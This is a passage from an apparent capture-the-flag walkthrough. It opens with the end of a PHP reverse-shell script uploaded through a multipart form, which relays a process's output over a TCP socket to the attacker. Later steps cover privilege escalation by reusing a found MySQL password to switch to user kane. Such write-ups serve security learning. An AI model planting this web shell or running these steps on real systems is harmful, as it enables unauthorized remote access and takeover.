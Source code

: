 		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}

		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}

	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);

	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}

	?> 



	-----------------------------3116742302425600613338252
	Content-Disposition: form-data; name="submit"

	Upload
	-----------------------------3116742302425600613338252--
    ```

7. You should be getting a reverse shell at this point.

8. Running linuxprivchecker and linenum scripts showed nothing out of the ordinary. Start to try basic enumeration using the current information I've already uncovered, mysql database login passwords and see if I could uncover data stored in home directories.

9. Kane's login has succeeded:

    ```shell
	su kane
    ```

	Kane's home folder contains a binary file named `msgmike`.  When executing the binary file, it tries to create a file in Mike's home folder: 
